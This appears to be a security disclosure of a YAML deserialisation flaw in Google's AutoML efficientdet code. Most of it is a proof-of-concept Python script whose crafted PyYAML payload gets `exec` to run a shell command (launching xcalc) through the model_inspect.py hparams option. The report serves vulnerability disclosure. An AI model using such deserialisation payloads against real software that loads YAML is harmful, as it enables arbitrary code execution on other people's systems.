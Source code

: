 ## ✍️ Description
Google Automl repository contains a list of AutoML related models and libraries.
* **Vulnerability discription**
Vulnerable to yaml deserilisation attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
```python
# exploit.py
import os
os.chdir('automl/efficientdet/')
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
os.system('rm exploit.yaml')
open('exploit.yaml','w+').write(exploit)
cmd = str("""python model_inspect.py --runmode=saved_model --model_name=efficientdet-d0 --ckpt_path=efficientdet-d0 --saved_model_dir=savedmodeldir --tensorrt=FP32  --tflite_path=efficientdet-d0.tflite --hparams=exploit.yaml""")
os.system(cmd)
```
* run the exploit.py file
![](https://cdn.discordapp.com/attachments/789769803770494996/791679209386147870/Screenshot_from_2020-12-24_20-15-52.png)
